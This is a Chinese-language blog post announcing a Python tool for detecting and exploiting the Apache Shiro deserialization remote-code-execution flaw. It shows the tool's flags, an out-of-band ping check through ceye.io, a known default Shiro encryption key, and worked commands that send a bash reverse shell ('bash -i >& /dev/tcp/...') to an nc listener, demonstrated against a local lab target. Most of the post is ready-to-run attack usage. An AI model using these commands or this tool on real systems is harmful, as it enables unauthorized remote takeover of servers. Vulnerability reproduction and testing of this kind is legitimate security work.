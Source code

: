 ```yaml
---
title: 【工具分享】shiro漏洞检测RCE工具
date: 2020-06-19 23:36:03
id: 200619-233603
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-06-19_22-21-10.png
sunmmary: 最近在做shiro反序列化漏洞复现，从网上也找了一堆复现文章和工具，但是这些工具用着都不太舒服，于是参考网上大佬们的工具，自己进行了一些简单的改良。
tags:
- 漏洞检测
- shiro
- RCE
categories:
- 工具分享
---
```


# 0x00 前言

最近在做shiro反序列化漏洞复现，从网上也找了一堆复现文章和工具，但是这些工具用着都不太舒服，于是参考网上大佬们的工具，自己进行了一些简单的改良。

<!--more-->

# 0x01 工具安装

本工具需要 Python3 和 Java 环境，下载本工具后，将文件解压，在本项目目录下运行下面的命令，安装Python第三方库即可。

```
pip3 install -r requirements.txt
```

国外下载地址：https://github.com/teamssix/shiro-check-rce/releases/

国内下载地址：https://gitee.com/teamssix/shiro-check-rce/releases

# 0x02 工具介绍

```
   _____ __    _               ________              __      ____  ____________
  / ___// /_  (_)________     / ____/ /_  ___  _____/ /__   / __ \/ ____/ ____/
  \__ \/ __ \/ / ___/ __ \   / /   / __ \/ _ \/ ___/ //_/  / /_/ / /   / __/   
 ___/ / / / / / /  / /_/ /  / /___/ / / /  __/ /__/ ,<    / _, _/ /___/ /___   
/____/_/ /_/_/_/   \____/   \____/_/ /_/\___/\___/_/|_|  /_/ |_|\____/_____/   By TeamsSix

我的个人博客：teamssix.com
我的个人公众号：TeamsSix

-c ：输入要执行的命令
-h ：查看帮助
-k : 输入自定义的key，不输入此参数时将遍历尝试默认key
-t ：输入你的ceye.io的token，用于检测shiro漏洞是否存在，此选项需要配合 -c "ping your.ceye.io" 使用
-u ：指定URL

python3 shiro-check-rce.py (-c) <command> [-h] [-k] <key> [-t] <token> (-u) <url>
```

## 1、漏洞检测

该功能需要你有一个[http://ceye.io/](http://ceye.io/)的账号，在[http://ceye.io/profile](http://ceye.io/profile)页面，找到自己的`Identifier`值和`API Token`值。

使用 -t 和 -c 参数配合使用，即可调用默认key字典进行检测。

> 文中的 http://192.168.175.146:8080/ 为本地靶机，192.168.175.152:9527 为 nc 监听地址。

```
python3 shiro-check-rce.py -u {target_URL} -c "ping {your.ceye.io}" -t {your_token}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "ping txxxxd.ceye.io" -t 1xxxxxxxxxxxxx6
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-06-19_22-21-10.png)

如果你有自己的key，也可以使用 -k 参数进行指定。

```
python3 shiro-check-rce.py -u {target_URL} -c "ping {your.ceye.io}" -t {your_token} -k {key}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "ping txxxxd.ceye.io" -t 1xxxxxxxxxxxxx6 -k kPH+bIxk5D2deZiIxcaaaA==
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/Snipaste_2020-06-19_22-27-47.png)

## 2、反弹shell

这里我采用bash命令反弹到本地nc监听端口的方式，因此我这里需要先在本地建立一个 nc 监听端口。

```
nc -lvvp 9527
```

之后，执行反弹shell命令

```
bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1

示例：bash -i >& /dev/tcp/192.168.175.152/9527 0>&1
```

本工具会对输入命令进行识别，如果检测到用户输入了bash反弹shell命令，将会自动对命令进行编码，无需自己编码，避免了明明存在漏洞却因为编码问题而反弹不了shell的尴尬。

```
python3 shiro-check-rce.py -u {target_URL} -c "bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1"

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "bash -i >& /dev/tcp/192.168.175.152/9527 0>&1"
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/65_shiro_bash_shell.gif)

如果知道key的话，就直接 -k 指定 key 即可

```
python3 shiro-check-rce.py -u {target_URL} -c "bash -i >& /dev/tcp/{your_nc_ip}/{your_nc_port} 0>&1" -k {key}

示例：python3 shiro-check-rce.py -u http://192.168.175.146:8080/ -c "bash -i >& /dev/tcp/192.168.175.152/9527 0>&1" -k kPH+bIxk5D2deZiIxcaaaA==
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/65_shiro_bash_shell_key.gif)

# 0x03 注意事项

* 本程序需要 python3 环境以及 java环境
* 在进行漏洞检测时，-c 指定 ping 的 URL 和 -t 指定的 token 需要是同一 ceye 账户的。
* 在安装`pycryptodome`库时，可能会碰到一些问题，可以根据报错信息进行排查，或者到网上找寻相关资料

> 更多信息欢迎关注我的微信公众号：TeamsSix
>
> GitHub项目地址：[https://github.com/teamssix/shiro-check-rce/](https://github.com/teamssix/shiro-check-rce/)
>

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/TeamsSix_Subscription_Logo2.png)